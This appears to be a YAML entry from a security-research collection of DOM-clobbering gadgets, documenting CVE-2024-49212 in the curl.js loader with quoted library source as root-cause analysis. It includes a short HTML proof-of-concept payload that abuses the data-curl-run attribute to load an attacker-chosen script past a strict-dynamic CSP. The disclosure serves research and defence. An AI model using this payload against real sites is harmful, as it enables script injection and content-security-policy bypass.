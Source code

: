 ```yaml
---
description: curl.js is small, fast, extensible module loader that handles AMD, CommonJS Modules/1.1, CSS, HTML/text, and legacy scripts.
github: cujojs/curl
gadgets:
  Latest:
    cve: CVE-2024-49212
    authors:
      - github:jackfromeast
      - github:ishmeals
    tags:
      - chrome-browser
      - safari-browser
      - doc-tags
      - data-attr
      - name-attr
      - strict-dynamic-csp
      - before-lib-load
    pocs:
      - description: The [curl.js](https://github.com/cujojs/curl) library uses the `data-curl-run` attribute to load scripts.
        code: |
          <!-- user input -->
          <img name="scripts" data-curl-run="[current-location]/assets/xss/index.js">
          <img name="scripts"> 

          <script nonce="secret" src="https://cdnjs.cloudflare.com/ajax/libs/curl/0.8.13/debug/curl.js"></script>
    more-info: |
      **Root Cause**

      Source: <a target="_blank" href="https://github.com/cujojs/curl/blob/master/src/curl.js#L1133-L1139">https://github.com/cujojs/curl/blob/master/src/curl.js#L1133-L1139</a>

      ```javascript
      findScript: function (predicate) {
        var i = 0, scripts, script;
        scripts = doc && (doc.scripts || doc.getElementsByTagName('script'));
        while (scripts && (script = scripts[i++])) {
          if (predicate(script)) return script;
        }
      }
      ```

      Source: <a target="_blank" href="https://github.com/cujojs/curl/blob/master/src/curl.js#L1141-L1155">https://github.com/cujojs/curl/blob/master/src/curl.js#L1141-L1155</a>

      ```javascript
      extractDataAttrConfig: function () {
        var script, attr = '';
        script = core.findScript(function (script) {
          var run;
          // find data-curl-run attr on script element
          run = script.getAttribute(bootScriptAttr);
          if (run) attr = run;
          return run;
        });
        // removeAttribute is wonky (in IE6?) but this works
        if (script) {
          script.setAttribute(bootScriptAttr, '');
        }
        return attr;
      }

      // [...]

      bootScript = core.extractDataAttrConfig();
      // wait a bit in case curl.js is bundled into the boot script
      if (bootScript) core.nextTurn(core.bootScript);
      ```

      Source: <a target="_blank" href="https://github.com/cujojs/curl/blob/master/src/curl.js#L691-L742">https://github.com/cujojs/curl/blob/master/src/curl.js#L691-L742</a>

      ```javascript
      loadScript: function (def, success, failure) {
        // script processing rules learned from RequireJS
        // TODO: pass a validate function into loadScript to check if a success really is a success

        // insert script
        var el = doc.createElement('script');

        // initial script processing
        function process (ev) {
          ev = ev || global.event;
          // detect when it's done loading
          // ev.type == 'load' is for all browsers except IE6-9
          // IE6-9 need to use onreadystatechange and look for
          // el.readyState in {loaded, complete} (yes, we need both)
          if (ev.type == 'load' || readyStates[el.readyState]) {
            delete activeScripts[def.id];
            // release event listeners
            el.onload = el.onreadystatechange = el.onerror = ''; // ie cries if we use undefined
            success();
          }
        }

        function fail (e) {
          // some browsers send an event, others send a string,
          // but none of them send anything useful, so just say we failed:
          failure(new Error('Syntax or http error: ' + def.url));
        }

        // set type first since setting other properties could
        // prevent us from setting this later
        // actually, we don't even need to set this at all
        //el.type = 'text/javascript';
        // using dom0 event handlers instead of wordy w3c/ms
        el.onload = el.onreadystatechange = process;
        el.onerror = fail;
        // js! plugin uses alternate mimetypes
        el.type = def.mimetype || 'text/javascript';
        // TODO: support other charsets?
        el.charset = 'utf-8';
        el.async = !def.order;
        el.src = def.url;

        // loading will start when the script is inserted into the dom.
        // IE will load the script sync if it's in the cache, so
        // indicate the current resource definition if this happens.
        activeScripts[def.id] = el;

        head.insertBefore(el, insertBeforeEl);

        // the js! plugin uses this
        return el;
      }
      ```
    links:
      - https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/curl.md
      - https://jackfromeast.github.io/assets/DOMinoEffect.pdf
---
```

